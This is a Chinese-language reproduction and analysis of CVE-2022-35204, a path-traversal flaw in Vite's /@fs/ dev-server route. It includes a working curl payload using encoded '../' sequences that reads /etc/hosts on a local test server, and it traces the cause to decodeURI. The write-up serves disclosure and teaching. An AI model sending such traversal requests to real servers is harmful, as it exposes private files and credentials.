 ```yaml
---
title: CVE-2022-35204
---
```


# CVE-2022-35204


<Metadata author="swwind" time="2023-6-12" />

Vite 是 Vite 开源的一种新型的前端构建工具。

Vite v2.9.13 之前版本存在安全漏洞，该漏洞源于允许攻击者通过精心设计的 URL 对受害者的服务执行目录遍历。

## 漏洞详情信息表

|  漏洞名称  |   Vite 路径遍历漏洞    |
| :--------: | :--------------------: |
| CNNVD 编号 |   CNNVD-202208-3372    |
|  CVE 编号  | [CVE-2022-35204][nist] |
|    厂商    |          Vite          |
|  危害等级  |          低危          |
|  漏洞类型  |        路径遍历        |

## 系统和软件环境配置详情信息表

- node v20.2.0
- yarn v1.22.19
- vite v2.9.12

## 漏洞还原详细步骤

1. 使用 `mkdir CVE-2022-35204` 指令新建目录用于测试。
2. 使用 `yarn init` 创建新的 nodejs 项目。
3. 使用 `yarn add vite@2.9.12` 安装带有缺陷的 vite 版本。

## 漏洞测试或验证详细步骤

### 编写代码

创建 `index.html`，简单写入任意 HTML 页面，如下样例。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Vite</title>
  </head>
  <body>
    There is nothing to observe
  </body>
</html>
```

### 运行程序

使用 `yarn vite dev` 开启 vite 开发模式服务器，可以看到程序默认监听了 `localhost:3000` 地址端口。

![](/assets/exploits/figure2/fig1.png)

访问 `http://localhost:3000` 可以看到我们在 `index.html` 中编写的内容。

![](/assets/exploits/figure2/fig2.png)

### 验证漏洞

vite 默认启用的 `/@fs/` 路由用于访问任意本地文件，但是只限于项目仓库目录下的文件。

例如我们构造一个请求 URL 形如 `http://localhost:3000/@fs/home/swwind/tmp/cve/CVE-2022-35204/index.html`，这个 URL 指向的是我们方才创建的 `index.html`，并且在项目的目录下，因此可以正常访问。我们使用 curl 测试这个路径的访问情况。

```bash
curl http://localhost:3000/@fs/home/swwind/tmp/cve/CVE-2022-35204/index.html
```

程序输出如下

![](/assets/exploits/figure2/fig3.png)

我们尝试访问一个不在项目路径下的文件，例如 `/etc/hosts` 文件，可以看到 vite 拒绝了我们的请求。

```bash
curl http://localhost:3000/@fs/etc/hosts
```

![](/assets/exploits/figure2/fig4.png)

漏洞的关键在于，我们可以使用 `%2e%2e%2f`（经过 `encodeURIComponent` 之后的 `../`）来索引到父级目录，从而绕过 vite 的路径验证。

值得注意的是使用 curl 必须要带上 `--path-as-is` 参数，防止 curl 自己展开 `../`。

```curl
curl --path-as-is http://localhost:3000/@fs/home/swwind/tmp/cve/CVE-2022-35204/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/hosts
```

![](/assets/exploits/figure2/fig5.png)

可以看到成功绕过了 vite 的路径检测，成功访问到了系统中的任意文件。

### 漏洞分析

漏洞出现的原因在于 vite 错误地使用了 `decodeURI` 函数来对输入的参数进行反序列化。

![](/assets/exploits/figure2/fig6.png)

`decodeURI` 函数在解码时会将大部分 ASCII 标点符号和预留字符保留不变，包括 /（斜杠）和 %2f（斜杠的编码形式）。

相比之下，`decodeURIComponent` 函数仅解码 URI 组件中的字符，而不是完整的 URI。它可以正确解码任何 ASCII 字符或 UTF-8 字符集，包括默认 URI 编码中使用的所有预留字符和其他特殊字符。因此，在处理普通的、标准的或非标准的 URI 时，`decodeURIComponent` 函数通常是更安全和可靠的选择。

在这个漏洞的情形下，当传入的参数是 `/home/swwind/tmp/cve/CVE-2022-35204/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/hosts` 的情形下，`decodeURI` 函数解析出来的结果是 `/home/swwind/tmp/cve/CVE-2022-35204/..%2f..%2f..%2f..%2f../etc/hosts`，再经由下一步的 `path.resolve` 函数解析的最终结果是 `/home/swwind/tmp/cve/CVE-2022-35204/..%2f..%2f..%2f..%2f../etc/hosts`，非常轻松地就绕过了 vite 的允许目录检查。

相比之下，如果使用了安全的 `decodeURIComponent` 函数，那么第一步解析出来的结果就会是 `/home/swwind/tmp/cve/CVE-2022-35204/../../../../../etc/hosts`，经过第二步 `path.resolve` 解析之后的结果将会是 `/etc/hosts`，从而有效防止此类攻击。

[nist]: https://nvd.nist.gov/vuln/detail/CVE-2022-35204
